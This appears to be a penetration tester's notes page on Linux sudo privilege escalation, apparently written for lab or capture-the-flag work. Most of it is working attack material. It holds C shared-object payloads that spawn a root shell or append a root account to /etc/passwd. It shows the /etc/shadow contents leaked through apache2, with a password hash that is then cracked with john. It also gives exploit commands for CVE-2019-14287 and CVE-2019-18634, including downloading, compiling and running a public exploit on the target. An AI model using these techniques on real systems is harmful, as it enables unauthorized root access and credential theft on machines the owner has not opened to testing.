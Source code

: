 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Sudo bins
```bash - target
sudo -l
```

```firefox
https://gtfobins.github.io/
```

Search what you're looking for, und "Sudo" section.

#### Text editor
Say we find a tool we can run as sudo, knife in this example.  In the manpage, it describes we can edit in a text editor.

![[Pasted image 20220922105222.png]]

```bash - target
sudo knife data bag create 1 2 -e vi
```

```bash - target
:!/bin/sh
```

#### Sudo shell escaping
```bash - kali
https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/
```

#### LD Preload
```bash - target
sudo -l
```

![[Pasted image 20221115134849.png]]

```bash - target
nano shell.c
```

```bash - target
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```bash - target
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Now just run the following command with any option from "sudo -l" :
MAKE SURE to use the full path for the shell.so file.

```bash - target
sudo LD_PRELOAD=/home/user/shell.so apache2
```

```bash - target
id
```

#### LD_LIBRARY_PATH
Here we have a elf file on a cron schedule for every minute.  We can write to /usr/local/lib/dev

![[Pasted image 20220318123807.png]]

We go to /usr/bin and try to execute log-sweeper, we find a message:
![[Pasted image 20220318124218.png]]

We can create a malicious utils.c:

```bash - target
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash' >> /etc/passwd");
}
```

```bash - target
gcc -fPIC -shared -o utils.so utils.c -nostartfiles
```

Now just put the ustils.so file in the writable LD_LIBRARY_PATH and wait for the cron job to execute.

```bash - target
su newroot
```

```bash - target
password
```

#### Apache2

1. List the programs your user is allowed to run via sudo:

```bash - target
sudo -l
```

 >(root) NOPASSWD: /usr/sbin/apache2

Note that apache2 is in the list.

2. apache2 doesn’t have any known shell escape sequences, however when parsing a given config file, it will error and print any line it doesn’t understand.

3. Run apache2 using sudo , and provide it the /etc/shadow file as a config file:

```bash - target
sudo apache2 -f /etc/shadow
```

Syntax error on line 1 of /etc/shadow:

```Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration```

![[Pasted image 20211230153252.png]]

4. Extract the root user’s hash from the file.

5. Save the password hash in a file (e.g. hash.txt):

```echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'```

6. Crack the password hash using john:

```bash - kali
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])```

7. Use the su command to switch to the root user, entering the password we cracked when prompted:

```bash - target
su
```

```bash - target
password123
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)


#### sudo -l !root

```
https://www.exploit-db.com/exploits/47502
```

![[Pasted image 20211230153039.png]]

```bash - target
sudo -u#-1 /bin/bash
```

![[Pasted image 20211230153054.png]]

#### sudo -l different user
1. List the programs your user is allowed to run via sudo:

```bash - target
sudo -l
```

![[Pasted image 20211230153125.png]]

2. For each program in the list, see if there is a shell escape sequence on GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/))

3. If an escape sequence exists, run the program via sudo and perform the sequence to spawn a root shell.

```bash - target
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```


#### CVE 2019-14287
```firefox - kali
https://www.exploit-db.com/exploits/47502
```

```bash - target
sudo -u#-1 /bin/bash
```

#### CVE-2019-18634
```bash - target
sudo -V
```

```bash - kali
https://nvd.nist.gov/vuln/detail/CVE-2019-18634
```

```bash - kali
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
```

```bash - kali
https://www.sudo.ws/security/advisories/pwfeedback/
```

```bash - target
wget http://$KALI/exploit.c
```

```bash - target
gcc exploit.c -o exploit
```

```bash - target
./exploit
```

Hit enter a time or two.

